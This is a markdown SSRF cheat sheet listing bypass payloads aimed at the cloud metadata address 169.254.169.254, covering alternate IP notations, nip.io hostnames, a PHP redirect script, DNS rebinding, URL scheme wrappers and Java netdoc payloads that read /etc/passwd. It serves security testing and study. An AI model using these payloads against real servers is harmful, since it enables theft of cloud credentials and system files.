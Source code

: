 ## Refernces -

- SSRF vulns & where to find them by **Detectify** - https://labs.detectify.com/2022/09/23/ssrf-vulns-and-where-to-find-them/
- SSRF attacks via PDF generators by **Nahamsec & Cody Brocious** - https://docs.google.com/presentation/u/0/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit
- A new era of SSRF by **Orange Tsai** - https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
## Tools -

- SSRFmap - https://github.com/swisskyrepo/SSRFmap

## Bypasses -

#### Use Hostnames Instead of IPs
Sometimes, the developers just banned the use of 169.254.169.254 directly. In that case, we can simply use hostnames that resolve to the same IP address. 

> Nip.io allows simple wildcard DNS for any IP address

here are some examples. All of these resolve to 169.254.169.254.

169.254.169.254.nip.io
169-254-169-254.nip.io
a9fea9fe.nip.io (hexadecimal IP notation)
Something.google.com.169.254.169.254.nip.io

#### HTTP Redirects
Sometimes, bypassing SSRF protection is as easy as using an HTTP redirect. 

Let’s say we can make a request to customdomain.com, but not 169.254.169.254. 

We can host a simple script on customdomain.com to 302 redirect to 169.254.169.254. If the vulnerable endpoint follows redirects but doesn’t check them, we have SSRF! 

Here’s a simple PHP script to perform the redirect.

```php
<?php header(“Location: http://169.254.169.254/”) ?>
```

#### DNS Rebinding

Many applications attempt to thwart SSRF attempts with a code pattern that looks like this:

```php
func fetch_if_allowed(url string){
    if ip_is_blocked(resolve($url)){
        return false
    } else {
        fetch($url)
    }
}
```

This code is vulnerable to a form of TOCTOU (time-of-check, time-of-use) vulnerability called DNS rebinding. An attacker can set up a DNS server that responds with two different IP addresses on alternating requests, one is allowed through the ip_is_blocked() function, and the other is not.

> Taviso's rbndr - https://github.com/taviso/rbndr

In this case, we could set up a DNS rebinding service such as Taviso’s rbndr to resolve to 1.1.1.1 every second time, and 169.254.169.254 every other time. When the domain is resolved the first time, the application sees that it resolves to 1.1.1.1, and allows the code to flow into the else statement, where the domain is resolved again – this time to 169.254.169.254. 🎉

#### Non-Standard IP Notations
Sometimes, specific IP addresses are blocked, such as 169.254.169.254. In this case, we may be able to bypass it by simply using different IP notation. For example, all of these will be interpreted as 169.254.169.254. 

- 025177524776 (octal)
- 0xa9fea9fe (hexadecimal)
- 2852039166 (integer)
- ::ffff:a9fe:a9fe (IPv6)

> Use thsi website to convert IP address to all the 4 types of notation - https://www.abuseipdb.com/tools/ip-address-converter

## SSRF Wrappers / URL Schema

The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled).

```http
gopher://
file://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
```

In case of **Java environments**, use these payloads

```http
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
```

## Enclosed Alphanumeric -

```http
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```
